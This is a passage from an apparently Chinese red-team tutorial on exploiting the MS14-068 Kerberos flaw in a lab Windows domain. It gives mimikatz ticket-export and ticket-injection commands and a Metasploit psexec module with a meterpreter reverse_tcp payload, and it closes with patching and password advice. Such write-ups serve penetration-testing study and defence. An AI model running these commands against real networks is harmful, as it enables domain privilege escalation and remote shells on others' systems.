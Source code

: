 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLfUuA8geDU4PUA88ciatSqxEBv8GWI2ZX0YbsJib43jGm2ZRGUic5w6uxbDyAV8o38jW205h5fYFeGQ/640?wx_fmt=png)

运行之后，会在 /root/.msf4/loot 目录下 生成文件：20201110021544_default_192.168.2.25_windows.kerberos_988070.bin

接下来要进行格式转换，在 mimikatz 中输入命令，导出 kirbi 格式的文件：

```
kerberos::clist "20201110021544_default_192.168.2.25_windows.kerberos_988070.bin" /export
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLfUuA8geDU4PUA88ciatSqxwCzuIYUUyXm69MgbvTJqoGn3DBuNmNSL4eC4g1azpLkibGEXlqyjmRg/640?wx_fmt=png)

这个时候转换成了：0-00000000-mary@krbtgt-GOD.ORG.kirbi 文件，我移动到了 Kali 的 / root 目录下，一会好操作！

首先需要让域用户 mary win7 上线 MSF：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLfUuA8geDU4PUA88ciatSqxNY4tSia1y3JVACMSgtjF92ymtYWibfF1SVcszMVjLz5OhNdvm1KSY6pg/640?wx_fmt=png)

输入 load kiwi 命令加载 mimikatz：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLfUuA8geDU4PUA88ciatSqxCxkbTsA6JPg2mr1icbs6Wk3nLWQCUicic8vrLWp3B3w2GMwQHhpVib6K1A/640?wx_fmt=png)

然后输入命令导入票据：

```
kerberos_ticket_use /root/0-00000000-mary@krbtgt-GOD.ORG.kirbi
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLfUuA8geDU4PUA88ciatSqxiaSyL1C76VTxynenxLrGKVLBEMmDaHEU9Bo8hyH3uFXIAiambvNGZUIA/640?wx_fmt=png)

之后切换后台 bakcgroud ，使用模块进行高权限票据提权：

```
use exploit/windows/local/current_user_psexec
set technique PSH
set rhosts 192.168.2.24
set payload windows/meterpreter/reverse_tcp
set session 4
run
```

**防范建议**

针对 Kerberos 域用户提权漏洞：  

开启 Windows update 功能，进行自动更新

手动下载补丁包进行修复：https://technet.microsoft.com/library/security/ms14-068

对域内账号进行控制，禁止使用弱口令、定期修改密码

在服务器上安装杀毒软件，及时更新病毒库


---------------------------------------------------------------------------------------------------------------------------------------------------------------------------

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

渗透攻击红队
